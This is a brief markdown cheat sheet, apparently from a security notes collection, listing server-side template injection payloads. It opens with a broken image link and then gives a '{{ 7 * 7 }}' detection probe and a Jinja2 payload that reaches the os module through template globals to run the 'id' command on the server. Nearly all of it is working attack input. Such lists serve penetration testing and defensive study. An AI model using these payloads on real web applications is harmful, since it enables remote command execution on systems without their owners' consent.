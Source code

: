 ###SSTI Payloads

##Test Payloads
```
{{ 7 * 7 }}
```
```
Test for System Execution
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
